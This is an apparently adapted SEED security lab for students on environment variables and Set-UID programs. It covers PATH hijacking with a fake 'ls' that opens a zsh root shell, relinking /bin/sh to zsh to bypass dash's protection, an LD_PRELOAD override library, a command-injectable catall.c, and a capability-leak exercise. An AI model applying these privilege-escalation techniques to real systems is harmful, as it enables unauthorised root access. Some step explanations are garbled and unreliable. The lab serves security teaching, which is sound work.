




# Environment Variable and Set-UID Program Lab

Copyright © 2006 - 2016 by Wenliang Du.<br>
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License. If you remix, transform, or build upon the material, this copyright notice must be left intact, or reproduced in a way that is reasonable to the medium in which the work is being re-published.

## 1 Overview

The learning objective of this lab is for students to understand how environment variables affect program and system behaviors. Environment variables are a set of dynamic named values that can affect the way running processes will behave on a computer. They are used by most operating systems, since they were introduced to Unix in 1979. Although environment variables affect program behaviors, how they achieve that is not well understood by many programmers. As a result, if a program uses environment variables, but the programmer does not know that they are used, the program may have vulnerabilities. 

In this lab, students will understand how environment variables work, how they are propagated from parent process to child, and how they affect system/program behaviors. We are particularly interested in how environment variables affect the behavior of Set-UID programs, which are usually privileged programs. This lab covers the following topics:

- Environment variables
- Set-UIDprograms
- Securely invoke external programs
- Capability leaking
- Dynamic loader/linker

**Readings and videos**. Detailed coverage of theSet-UIDmechanism, environment variables, and their related security problems can be found in the following:

- Chapters 1 and 2 of the SEED Book,Computer & Internet Security: A Hands-on Approach, 2nd Edition, by Wenliang Du. See details at https://www.handsonsecurity.net.
- Section 2 of the SEED Lecture at Udemy,Computer Security: A Hands-on Approach, by Wenliang Du. See details at https://www.handsonsecurity.net/video.html.

**Lab environment**. You can perform the lab exercise on the SEED VM provided by the Cloudlabs.

## 2 Lab Tasks

First you need to make sure that you are logged in to **seed** user. Type the below commmands to log in as seed user and change directory.
```
sudo su seed
cd
```


Files needed for this lab are included in `Labsetup.zip`, which can be downloaded into the VM by running the following commands in the terminal.
 
```
sudo wget https://github.com/CloudLabs-MOC/CloudLabs-SEED/raw/main/Software%20Security/Environment%20Variables%20and%20Attacks/Lab%20files/Labsetup.zip
```

```
sudo unzip Labsetup.zip
```


### 2.1 Task 1: Manipulating Environment Variables

In this task, we study the commands that can be used to set and unset environment variables. We are using Bash in the seed account. The default shell that a user uses is set in the `/etc/passwd` file (the last field of each entry). You can change this to another shell program using the command _chsh_ (please do not do it for this lab). Please do the following tasks:

- Use `printenv` or `env` command to print out the environment variables. If you are interested in some particular environment variables, such as PWD, you can use "`printenv PWD`" or "`env | grep PWD`".


- Use `export` and `unset` to set or unset environment variables. It should be noted that these two commands are not separate programs; they are two of the Bash’s internal commands (you will not be able to find them outside of Bash).


### 2.2 Task 2: Passing Environment Variables from Parent Process to Child Process

In this task, we study how a child process gets its environment variables from its parent. In Unix, **fork()** creates a new process by duplicating the calling process. The new process, referred to as the child, is an exact duplicate of the calling process, referred to as the parent; however, several things are not inherited by the child (please see the manual of `fork()` by typing the following command: `man fork`). In this task, we would like to know whether the parent’s environment variables are inherited by the child process or not.

**Step 1**. Please compile and run the following program, and describe your observation. The program can be found in the **Labsetup** folder, run `cd Labsetup` ***(1)*** to change the folder. Run `ls` ***(2)*** wherever needed to list the files present in that directoy. It can be compiled using `sudo gcc myprintenv.c` ***(3)***, which will generate a binary called `a.out`. Let’s login as root user by running `sudo su` ***(4)*** and run the a.out file and save the output into a file using `./a.out > file1.txt` ***(5)***.


Listing 1:myprintenv.c

```
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
void printenv()
{
    int i = 0;
    while (environ[i] != NULL) {
    printf("%s\n", environ[i]);
    i++;
    }
}

void main()
{
    pid_t childPid;
    switch(childPid = fork()) {
        case 0: /* child process*/
        printenv();     ➀
        exit(0);
        default: /* parent process*/
        //printenv();   ➁
        exit(0);
    }
}
```

**Step 2**. Now open the **myprintenv.c** file in **Nano** editor by running `nano myprintenv.c`. Once inside the nano editor, comment out the `printenv()` statement in the child process case (Line➀), and uncomment the `printenv()` statement in the parent process case (Line➁). Press **Ctrl+O** to save, then press **Enter** to write out to the file and lastly press **Ctrl+X** to exit the nano editor.


**Step 3**. Next, delete the existing **a.out** binary file by running `rm a.out`.

**Step 4**. Now, the step 1 and step 2 should be repeated for the updated **myprintenv.c** file by compiling it by running `gcc myprintenv.c` ***(1)***, which will generate a new binary file called `a.out`. Run `./a.out > file2.txt` to save the output of **a.out** file into **file2.txt** ***(2)*** file. 


**Step 5**. Compare the difference of these two files using the `diff file1.txt file2.txt` ***(1)*** command. You will notice there will be no output as the binary files will be identical. Lastly, type `exit` ***(2)*** and press **Enter** to switch back to the seed user.


### 2.3 Task 3: Environment Variables and execve()

In this task, we study how environment variables are affected when a new program is executed via `execve()`. The function `execve()` calls a system call to load a new command and execute it; this function never returns. No new process is created; instead, the calling process’s text, data, bss, and stack are overwritten by that of the program loaded. Essentially,`execve()` runs the new program inside the calling process. We are interested in what happens to the environment variables; are they automatically inherited by the new program?

**Step 1.** Compile the below program by running `sudo gcc myenv.c -o myenv` ***(1)*** and then run it using `./myenv` ***(2)***. This program simply executes a program called `/usr/bin/env`, which prints out the environment variables of the current process. However, you will not see any output in this step. 


Listing 2:myenv.c
```
#include <unistd.h>

extern char **environ;
int main()
{
    char *argv[2];
    argv[0] = "/usr/bin/env";
    argv[1] = NULL;
    execve("/usr/bin/env", argv, NULL); ➀
    return 0 ;
}
```
**Step 2**. You need to change the invocation of `execve()` in Line➀ in the myenv.c file to the following; by opening the file in nano editor using `sudo nano myenv.c`, then replace **NULL** in Line➀ with **environ**. To save the file, press **Ctrl + O** and press **Enter** to write out to the file and lastly press **Ctrl+X** to exit the nano editor.

```
execve("/usr/bin/env", argv, environ);
```


**Step 3**. Compile the **myenv.c** file using `sudo gcc myenv.c -o myenv2` ***(1)*** and execute it using `./myenv2` ***(2)***. You can now see the new programs getting its environment variables.


### 2.4 Task 4: Environment Variables and system()

In this task, we study how environment variables are affected when a new program is executed via the `system()` function. This function is used to execute a command, but unlike `execve()`, which directly executes a command, `system()` actually executes "`/bin/sh -c command`", i.e., it executes `/bin/sh`, and asks the shell to execute the command.

If you look at the implementation of the `system()` function, you will see that it uses `execl()` to execute `/bin/sh;execl()` calls `execve()`, passing to it the environment variables array. Therefore, using `system()`, the environment variables of the calling process is passed to the new program `/bin/sh`.Please compile and run the following program to verify this.

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    system("/usr/bin/env");
    return 0 ;
}
```

**Step 1**. Create a file called **mysys.c**(You can provide a custom name to the file) using `sudo nano mysys.c`. After entering inside the nano editor, copy and paste the above program in the editor. Next, proceed to save the file, press **Ctrl + O** and press **Enter** to write out to the file and finally press **Ctrl+X** to exit the nano editor. 


**Step 2**. Compile the **mysys.c** file using `sudo gcc mysys.c -o mysys` ***(1)*** and execute it using `./mysys` ***(2)***. You can see that running the binary file will output the environment variables.


### 2.5 Task 5: Environment Variable and Set-UID Programs

`Set-UID` is an important security mechanism in Unix operating systems. When a `Set-UID` program runs, it assumes the owner’s privileges. For example, if the program’s owner is root, when anyone runs this program, the program gains the root’s privileges during its execution. `Set-UID` allows us to do many interesting things, but since it escalates the user’s privilege, it is quite risky. Although the behaviors of `Set-UID` programs are decided by their program logic, not by users, users can indeed affect the behaviors via environment variables. To understand how `Set-UID` programs are affected, let us first figure out whether environment variables are inherited by the `Set-UID` program’s process from the user’s process.

**Step 1**. Write the following program that can print out all the environment variables in the current process, by creating a file **printenv.c**(You can provide a custom name to the file) using `sudo nano printenv.c`. Once within the nano editor, copy and paste the below provided program in the editor. To save the file, press **Ctrl + O**, press **Enter** to confirm the write action, and conclude by pressing **Ctrl+X** to exit the nano editor.


```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;
int main()
{
    int i = 0;
    while (environ[i] != NULL) {
    printf("%s\n", environ[i]);
    i++;
    }
}
```

**Step 2**. Compile and run the above program using `sudo gcc printenv.c -o printenv` ***(1)*** and execute it using `./printenv` ***(2)***. You can see that executing printenv binary file will return the environment variables.


**Step 3**. Change the file's ownership to root, and make it a `Set-UID` program by running the below commands.

```
$ sudo chown root printenv
$ sudo chmod 4755 printenv
$ ls -l printenv
```


>**Note:** Running **ls -l [FILE-NAME]** command will display detailed information about the specified file, showing details like its permissions, owner, group, file size, modification date, and more.

**Step 4**. In your shell (you need to be in a normal user account, not the root account), run the below commands to see the directories of environment variable. You will notice that **echo $LD_LIBRARY_PATH** will not return any value.

```
$ echo $PATH
$ echo $LD_LIBRARY_PATH
```


**Step 5**. Run the below commands to assign a value to the environment variables and then set environment variables using **export** command. You can provide a custom name and value for the **MYVAR** environment variable.

```
$ LD_LIBRARY_PATH='.'
$ export LD_LIBRARY_PATH
$ export MYVAR='my variable'
```


**Step 6**. Finally, you can verify if the environment variables are set by executing the below commands, which will print the values of environment variables.

```
$ printenv PATH
$ printenv LD_LIBRARY_PATH
$ printenv MYVAR
```




### 2.6 Task 6: The PATH Environment Variable and Set-UIDPrograms

Because of the shell program invoked, calling `system()` within a `Set-UID` program is quite dangerous. This is because the actual behavior of the shell program can be affected by environment variables, such as `PATH`; these environment variables are provided by the user, who may be malicious. By changing these variables, malicious users can control the behavior of the `Set-UID` program. In `Bash`, you can change the `PATH` environment variable in the following way (this example adds the directory `/home/seed` to the beginning of the `PATH` environment variable):

```
$ export PATH=/home/seed:$PATH
```

The `Set-UID` program below is supposed to execute the `/bin/ls` command; however, the programmer only uses the relative path for the `ls` command, rather than the absolute path:

```
int main()
{
    system("ls");
    return 0;
}
```

**Step 1**. Create a file using the below command, which will list out all the files and folders in the calendar folder with root privileges.

```
$ sudo nano ls.c
```

**Step 2**. Upon the opening of the nano editor , copy and paste the below provided program in the editor.

```
#include <stdio.h>
#include <stdlib.h>
int main()
{
	printf("My malicious ls program is called!\n");
    system("/bin/zsh");
	return 0;
}
```


**Step 3**.  To save the file, press **Ctrl + O**, press **Enter** to confirm the write action, and exit the nano editor by pressing **Ctrl+X**.

**Step 4**. Create another file using the below command, which will list out all the files and folders in the calendar folder.

```
$ sudo nano myls.c
```

**Step 5**. Copy and paste the below provided program in the editor once it launches.

```
#include <stdio.h>
#include <stdlib.h>
int main()
{
    system("/bin/ls");
    return 0;
}
```


**Step 6**.  Next, save the file by pressing **Ctrl + O**, press **Enter** to confirm the write action, and press **Ctrl+X** to exit the nano editor.

**Step 7**. Compile and run the **myls.c** file using the below commands. You can see that running the binary file will output the files in the current folder. Additionally, you can see the color highlighted file with elevated privilege (Set-UID program) using the ls **command**.

```
$ sudo gcc myls.c -o myls
$ ./myls
$ ls
```


>**Note:** The reason **ls** command lists files along with highlighted colors, but running the **myls.c** program which contains **bin/ls** path doesn't list files in the same way is that, there are 2 **ls** in the system. **ls** relies on the system's command lookup (Environemnt Variables), while **/bin/ls** specifies the exact location in the /bin directory.

**Step 8**. Run the below command to check the exact path of the **ls** command's executable.

```
$ which ls
```


**Step 9**. Now, list the files in the current path using the path displayed in the previous step, by running the commands below.

```
$ /usr/bin/ls
$ /bin/ls
```



**Step 10**. The reason **which ls** command displays **/usr/bin/ls** is because, the system will search for the files and folders in the pairs in one of the environment variable. By running the below command, you will be able to observe that **/usr/bin** folder is front of the **/bin folder**. Therefore, it will call /usr/bin/ls. 

```
$ echo $PATH
```


**Step 11**. You can manipulate the **$PATH** environment variable as normal user by executing the below commands, that will search the local paths before any folder and displays the new path. Post the below commands are executed, you will notice **.** in the beginning of the path. 

```
$ export PATH='.':$PATH
$ echo $PATH
```


**Step 12**. The next step is to make a fake **ls** by running the below commands. Post the commands execution, you will notice that running **ls** will open the calendar folder, as **cal** is indicative of the term "calendar".

```
$ sudo cp /bin/cal ls
$ ls
```


**Step 13**. Even if you run **./myls**, it will display the files in **/bin/ls**. Verify it by running the below command. You will see that files are not colour highlighted.

```
$ ./myls
```

**Step 14**. In your current Terminal tab, the batch process and exporters are password manipulated at a path. Hence, open a new tab in the Terminal which will be normal (unmanipulated), by clicking on **File** ***(1)***, then select **New Tab** ***(2)***. 


> **Note:** Once the new tab opens, check if the username the terminal is logged into is **seed**. Else, run the command `sudo su seed` to login as seed user, then execute `cd` command to return to the home directory. Lastly run 'cd Labsetup/' to go the Lab directory.

**Step 15**. Check if the path is manipulated in the new tab by running the below command. You will notice that the path is not manipulated.

```
$ echo $PATH
```


**Step 16**. In the new tab, run the below commands. You will notice that running **ls** will list the files as usual, whereas, executing **./ls** will return the calendar, as ./ls is fake.

```
$ ls
$ ./ls
```


**Step 17**. In the new tab you created, run the below commands to change the normal **myls** program to a Set-UID program. 

```
$ sudo chown root myls
$ sudo chmod 4755 myls
$ ls -l myls
```


**Step 18**. Return to the previous tab (Manipulated tab) and run the commands below to check if it will search for myls file. 

```
$ ./myls
$ echo $PATH
```


**Step 19**. The reason it doesn't return the set-UID program is that, in the **myls.c** file, you had provided **/bin/ls** path instead of **ls**. Therefore open **myls** file using the below command to modify the file.

```
$ sudo nano myls.c
```

**Step 20**. Update the path in the file from **/bin/ls** to **ls**.


**Step 21**. Upon updating the file, save the file by pressing **Ctrl + O**, press **Enter** to confirm the write action, and press **Ctrl+X** to exit the nano editor.

**Step 22**. Now, switch to the new tab (Unmanipulated). Compile and run the updated **myls.c** file by executing the below commands. You will observe that in the normal folder, the path environment variable is not modified.

```
$ sudo gcc myls.c -o myls2
$ ./myls2
```



**Step 23**. Return to the previous tab (Manipulated), and run the following command. You shall see that the command will return fake ls first because it will search in local folders first to find **ls**.

```
$ ./myls2
```


**Step 24**. If the file is a normal user program it will be attacked. So, switch to the new tab you created(Unmanipulated) and update the file to be a Set-UID program by running the following commands.

```
$ sudo chown root myls2
$ sudo chmod 4755 myls2
$ ls -l myls2
```


**Step 25**. Switch to the previous tab (Manipulated) and run the below command, which will return the calendar, as the program that was run was a Set-UID program and it accepts the manipulated PATH environment variable. This way, vulnerabiity will be introduced into the program.

```
$ ./myls2
```


**Step 26**. Next, you need to verify if your malicious code is running with root privilege. You can use the **id** program to check if the process is privileged or not. Go to the new tab (Unmanipulated) and run the below mentioned command, which will display many process IDs.

```
$ id
```


**Step 27**. Execute the below provided commands to use the **id** program as fake ls, by firstly removing the calendar fake ls.
 
```
$ sudo rm ls
$ sudo cp /bin/id ls
$ ls
$ ./ls
```


**Step 28**. Switch back to the previous tab (Manipulated) and run the below command which is a Set-UID program. You will see the IDs again, since it is still running the malicious code as a normal user (non-root) due to the protection provided by the operating system.  

```
$ ./myls2
```


**Step 29**. The protection is introduced into the **dash**. Whereas, if you use another shell like zsh, then you will see that the protection is not enabled and you will be able to run the code with root privilege. Switch to the new tab (Unmanipulated) and run the following commands which will change the **/bin/sh** to  **/bin/zsh** and also link it to the z shell instead of **dash**.

```
$ sudo ln -sf /bin/zsh /bin/sh
$ ls -l /bin/sh
```


**Step 30**. Go back to the previous tab (Manipulated) and run the command below that will list the process ID **eudi=0(root)**, which indicates that you are able to run the program with root privilege. 

```
$ ./myls2
```


**Step 31**. Now, you need to link it back to the **dash** which will enable the protection again. Switch the new tab (unmanipulated) and run the below command.

```
$ sudo ln -sf /bin/dash /bin/sh
$ ls -l /bin/sh
```


**Step 32**. Verify if the program will be executed with root privilege by running the below command in the previous tab (Manipulated). You will notice that the process ID **eudi=0(root)** which indicates that you are running the program with root privilege is not present. Therefore, it confirms that the program is executed with non-root (normal) privilege.

```
$ ./myls2
```


> **Note**: The `system(cmd)` function executes the `/bin/sh` program first, and then asks this shell program to run the cmd command. In Ubuntu 20.04 (and several versions before), `/bin/sh` is actually a symbolic link pointing to `/bin/dash`. This shell program has a countermeasure that prevents itself from being executed in a `Set-UID` process. Basically, if dash detects that it is executed in a `Set-UID` process, it immediately changes the effective user ID to the process’s real user ID, essentially dropping the privilege. 


### 2.7 Task 7: The LD_PRELOAD Environment Variable and Set-UID Programs

In this task, we study how `Set-UID` programs deal with some of the environment variables. Several environment variables, including `LD_PRELOAD,LD_LIBRARY_PATH, and other LD_*` influence the behavior of dynamic loader/linker. A dynamic loader/linker is the part of an operating system (OS) that loads (from persistent storage to RAM) and links the shared libraries needed by an executable at run time. 

In Linux, `ld.so or ld-linux.so`, are the dynamic loader/linker (each for different types of binary). Among the environment variables that affect their behaviors,`LD_LIBRARY_PATH and LD_PRELOAD` are the two that we are concerned in this lab. In Linux,`LD_LIBRARY_PATH` is a colon-separated set of directories where libraries should be searched for first, before the standard set of directories. `LD_PRELOAD` specifies a list of additional, user-specified, shared libraries to be loaded before all others. In this task, we will only study `LD_PRELOAD`.

**Step 1**. First, create a file called **mylib.c** using the below command, which is a simulation program that basically overrides the `sleep()` function in `libc`.

```
$ sudo nano mylib.c
```

**Step 2**. Upon the opening of the nano editor , copy and paste the below provided program in the editor.

```
#include <stdio.h>
void sleep(int s)
{
	printf("I'm a malicious program!\n");
}
```


**Step 3**.  To save the file, press **Ctrl + O**, press **Enter** to confirm the write action, and exit the nano editor by pressing **Ctrl+X**.

**Step 4**. Close the old tab (Manipulated tab) and switch to the new tab that you created in the previous task (Unmanipulated tab).

**Step 5**. Run the below command to generate a object file from **mylib.c**.

```
$ sudo gcc -fPIC -g -c mylib.c
$ ls
```


> **Note:** If you get error message while generating the onject file such as **No permission** or **No such file or directory found**, then close the terminal application and launch it again.  

**Step 6**. Nect, create a shared library by running the below commands. 

```
$ sudo gcc -shared -o libmylib.so.1 mylib.o -lc
$ ls
```


**Step 7**. You have now set the LD_PRELOAD environment variable. Execute the commands following commands to check the the value LD_PRELOAD variable. Its value will be the library name.

```
$ export LD_PRELOAD=./libmylib.so.1
$ echo $LD_PRELOAD
```


**Step 8**. Now, you have to compare it with **myprog** file. Run the below provided commands to create another file called **myprog.c**.

```
$ sudo nano myprog.c
```

**Step 9**. Once the nano editor launches, copy and paste the below provided program in the editor. This program will recor the sleep function by default from the system library.

```
#include <unistd.h>
int main()
{
    sleep(1);
    return 0;
}
```


**Step 10**. Save the file, by pressing **Ctrl + O**, press **Enter** to confirm the write action, and exit the nano editor by pressing **Ctrl+X**.

**Step 11**. Execute the below commands to compile and run the **myprog.c** program. You will see that you are calling a malicious function. 

```
$ sudo gcc myprog.c -o myprog
$ ./myprog
```


**Step 12**. Now change the **myprog** to a Set-UID program and run it as a normal user using the below commands. When you run the program, you will observe that there is one second sleep before continuing to the next prompt. Notice that in this case, malicious program is not called.

```
$ sudo chown root myprog
$ sudo chmod 4755 myprog
$ ls -l myprog
$ ./myprog
```


**Step 13**. You need to run the **myprog** in root account. Run the commands below to switch to root user.

```
$ sudo su
```


**Step 14**. In the root environment, **LD_PRELOAD** will be empty. Therefore, run the below commands to verify if the previously set value is present or not, and to set the environment variable value again.

```
$ echo $LD_PRELOAD
$ export LD_PRELOAD=./libmylib.so.1
$ echo $LD_PRELOAD
```


**Step 15**. Run the **myprog** using the below commands. You will see that you are attacked as the malicious code is called. Also, running **id** command will display the privileges with which the command was run. You will notice an ID **uid=0(root)**, which means that your command/program ran with root privilege.

```
$ ./myprog
$ id
```


**Step 16**. Exit the root user by running `exit` command. It will return you to the seed user.

**Step 17**. Now, you need to make `myprog` a `Set-UID` user1 program (i.e., the owner is user1, which is another user account), export the LD_PRELOAD environment variable again in a different user’s account (not-root user) and run it. Execute the below commands to create a user.

```
$ sudo adduser user1
```

**Step 18**. Provide the below values for the respected property.

    - **New password:** Password.1!! (Password can be of your choice. Ensure to note it down)
    
    - **Re-type new password:** Password.1!! 

    - **Full Name []:** user 1 for test

    - **Room Number []:** Press Enter 

    - **Work Phone []:** Press Enter

    - **Home Phone []:** Press Enter

    - **Other []:** Press Enter

    - **Is the information correct? [Y/n]:** Y



**Step 19**. Execute below commands which firstly lists the **myprog** ownership details and the follwowing commands will change the ownership of **myprog** to user1.

```
$ ls -l myprog
$ sudo chown user1 myprog
$ sudo chmod 4755 myprog
$ ls -l myprog
```


**Step 20**. Next, change the user group to user1 and also make the program a Set-UID program again since you changed the group, by running the below commands.

```
$ sudo chown user1:user1 myprog
$ ls -l myprog
$ sudo chmod 4755 myprog
$ ls -l myprog
```


**Step 21**. Run the **myprog** Set-UID program using the below command. You will see that the program will run normally. It records a normal sleep function which sleeps for a second and then continues.

```
$ ./myprog
```

**Step 22**. Even the **LD_PRELOAD** environment variable will be here which contains malicious library. But it will be protected by operating system.

```
$ echo $LD_PRELOAD
```


In conclusion, in the child process, the LD_PRELOAD is not passed into the environment of myprog when it's a Set-UID program. However, if it is a normal program, then the LD_PRELOAD environment variable is passed into the environment and the malicious code will be called.  


### 2.8 Task 8: Invoking External Programs Using `system()` versus `execve()`

Although `system()` and `execve()` can both be used to run new programs, `system()` is quite dangerous if used in a privileged program, such as `Set-UID` programs. We have seen how the `PATH` environment variable affect the behavior of `system()`, because the variable affects how the shell works. `execve()` does not have the problem, because it does not invoke shell. Invoking shell has another dangerous consequence, and this time, it has nothing to do with environment variables. Let us look at the following scenario.

Bob works for an auditing agency, and he needs to investigate a company for a suspected fraud. For the investigation purpose, Bob needs to be able to read all the files in the company’s Unix system; on the other hand, to protect the integrity of the system, Bob should not be able to modify any file. To achieve this goal, Vince, the superuser of the system, wrote a special set-root-uid program (see below), and then gave the executable permission to Bob. This program requires Bob to type a file name at the command line, and then it will run `/bin/cat` to display the specified file. Since the program is running as a root, it can display any file Bob specifies. However, since the program has no write operations, Vince is very sure that Bob cannot use this special program to modify any file.

Listing 3:catall.c

```
int main(int argc, char *argv[])
{
    char *v[3];
    char *command;

if(argc < 2) {
    printf("Please type a file name.\n");
    return 1;
}

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;
    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0 ;
}
```

**Step 1**: Compile the above program, make it a root-owned `Set-UID` program. The program will use `system()` to invoke the command. If you were Bob, can you compromise the integrity of the system? For example, can you remove a file that is not writable to you?

**Step 2**: Comment out the `system(command)` statement, and uncomment the `execve()` statement; the program will use `execve()` to invoke the command. Compile the program, and make it a root-owned `Set-UID`. Do your attacks in Step 1 still work? Please describe and explain your observations.

### 2.9 Task 9: Capability Leaking

To follow the Principle of Least Privilege, `Set-UID` programs often permanently relinquish their root privileges if such privileges are not needed anymore. Moreover, sometimes, the program needs to hand over its control to the user; in this case, root privileges must be revoked. The `setuid()` system call can be used to revoke the privileges. According to the manual, “`setuid()` sets the effective user ID of the calling process. If the effective UID of the caller is root, the real UID and saved `set-user-ID` are also set”. Therefore, if a `Set-UID` program with effective UID 0 calls `setuid(n)`, the process will become a normal process, with all its UIDs being set ton.

When revoking the privilege, one of the common mistakes is capability leaking. The process may have gained some privileged capabilities when it was still privileged; when the privilege is downgraded, if the program does not clean up those capabilities, they may still be accessible by the non-privileged process. In other words, although the effective user ID of the process becomes non-privileged, the process is still privileged because it possesses privileged capabilities. Compile the following program, change its owner to root, and make it a `Set-UID` program. Run the program as a normal user. Can you exploit the capability leaking vulnerability in this program? The goal is to write to the `/etc/zzz` file as a normal user.

Listing 4:capleak.c

```
void main()
{
    int fd;
    char *v[2];
    /* Assume that /etc/zzz is an important system file,
    * and it is owned by root with permission 0644.
    * Before running this program, you should create
    * the file /etc/zzz first. */
    fd = open("/etc/zzz", O_RDWR | O_APPEND);
    if (fd == -1) {
        printf("Cannot open /etc/zzz\n");
        exit(0);
    }
    // Print out the file descriptor value
    printf("fd is %d\n", fd);

    // Permanently disable the privilege by making the
    // effective uid the same as the real uid
    setuid(getuid());
    // Execute /bin/sh
    v[0] = "/bin/sh"; v[1] = 0;
    execve(v[0], v, 0);
}
```

## 3 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits.
